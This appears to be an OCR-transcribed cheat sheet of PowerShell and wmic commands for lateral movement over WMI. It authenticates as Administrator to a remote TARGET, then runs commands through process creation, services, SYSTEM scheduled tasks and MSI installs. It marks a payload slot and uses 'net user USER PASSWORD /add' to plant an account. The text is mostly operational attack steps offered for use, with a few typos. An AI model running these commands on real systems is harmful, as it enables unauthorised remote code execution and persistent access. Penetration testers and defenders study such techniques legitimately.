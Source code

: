 ## 1: Connect to WMI through Powershell

#### 1) $username= 'Administrator';
#### 2) $password= 'PASSWORD';
#### 3) #securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;
#### 4) $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

## 2: Establish WMI Session

### Protocols:

### 1) DCOM: RPC over IP. Ports: 135/TCP, 49152-65535/TCP

### 2) Wsman: WinRM. Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS) 

## 3: WMI Through Powershell

#### 1) $Opt = New-CimSessionOption -Protocol DCOM

#### 2) $Session = New-CimSession -ComputerName TARGET -Credential $credential -sessionOption $Opt -ErrorAction Stop

## 4: Remote Process Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5986/TCP, 5986/TCP

### Group Memberships: Administrators

#### 1) $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value jimmywsahere";

####  2) Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}

### Legacy Systems

#### wmic.exe /user:Administrator /password:PASSWORD /node:TARGET process call create "cmd.exe /c calc.exe"

## 5: Remote Service Creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP (DCERPC) 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### 1) Invoke-CimMethod -CimSession $session -ClassName Win32Service -MethodName Create -Arguments @{

#### Name = "service";

#### DisplayName = "service";

#### PathName = "net user USER PASSWORD /ADD" (INSERT YOUR PAYLOAD HERE)

#### ServiceType = [byte]::parse("16"); (Win32OwnProcess: Start service in a new process)

#### StartMode = "Manual"

#### }

## 6: Get handle on service and start

#### $service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'service'"

#### Invoke-CimMethod -InputObject $service -MethodName StartService

#### Invoke-CimMethod -InputObject $service -MethodName StopService

#### Invoke-CimMethod -InputObject $service -MethodName Delete

## 7: Remote scheduled tasks creation (WMI)

### Ports: 135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

## *Payload must be split in Command and Args*

#### $Command = "cmd.exe"

#### $Args = "/c net user USER PASSWORD /add"

#### $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args

#### Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" - TaskName "task"

#### Start-ScheduledTask -CimSession $Session -TaskName "task"

#### Unregister-ScheduledTask -CimSession $Session -TaskName "task"

## 8: MSI Packages (WMI)

### Ports:  135/TCP, 49152-65535/TCP, 5985/TCP or 5986/TCP

### Group Memberships: Administrators

#### Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

### Legacy Systems

#### wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\windows\myinstaller.msi
